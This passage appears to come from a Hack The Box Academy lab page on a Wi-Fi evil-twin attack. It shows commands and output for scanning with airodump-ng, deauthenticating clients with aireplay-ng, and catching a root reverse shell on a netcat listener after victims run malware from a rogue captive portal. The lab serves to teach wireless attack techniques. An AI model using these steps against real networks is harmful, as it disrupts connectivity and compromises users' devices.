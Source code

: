 PHY	Interface	Driver		Chipset

phy1	wlan0		mac80211_hwsim	HTB Chipset of 802.11 radio(s) for mac80211
ai		(mac80211 monitor mode vif enabled for [phy1]wlan0 on [phy1]wlan0mon)
		(mac80211 station mode vif disabled for [phy1]wlan0)
rphy2	wlan1		mac80211_hwsim	HTB Chipset of 802.11 radio(s) for mac80211
</code></pre>
<p>When the interface is confirmed to be in monitor mode, we use airodump-ng to scan for nearby access points and identify our target AP's BSSID:</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng wlan0mon -c 1

 CH  1 ][ Elapsed: 12 s ][ 2025-03-16 19:07 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 
 6A:48:AC:B4:EF:05  -28 100      127        0    0   1   54   OPN              HTB-Guest
 D4:C1:8B:79:AD:45  -28   0      127       54    1   1   54   OPN              HTB-Guest                                

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 D4:C1:8B:79:AD:45  91:29:2c:20:e7:10  -29   54 - 9      0       12
 D4:C1:8B:79:AD:45  74:b9:59:2e:e6:66  -29    1 -11      0       12
 D4:C1:8B:79:AD:45  9f:03:1f:4f:95:73  -29    1 - 5      0       13 
</code></pre>
<p>From the output, we can confirm that all clients are connected to the legitimate access point (AP) with the BSSID D4:C1:8B:79:AD:45. To execute a deauthentication attack, we can use aireplay-ng:</p>
<pre><code class="language-shell-session">[!bash!]$ aireplay-ng --deauth 5 -a D4:C1:8B:79:AD:45 wlan0mon

19:17:02  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
19:17:02  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
19:17:03  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
</code></pre>
<hr/>
<h3>6. Gain a reverse shell</h3>
<p>After a client successfully connects to our rogue AP, they will be redirected to our malware captive portal, which would look like following:</p>
<p><img alt="Rev" src="https://academy.hackthebox.com/storage/modules/299/rev/001.PNG"/></p>
<p>If the client downloads and executes the malware, we should receive a reverse shell on our Netcat listener.</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nvlp 4444

Listening on 0.0.0.0 4444
Connection received on 192.168.0.51 53924

id
uid=0(root) gid=0(root) groups=0(root)

</code></pre>
<p>We can use the obtained credentials to log in to the captive portal of the target Wi-Fi network.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">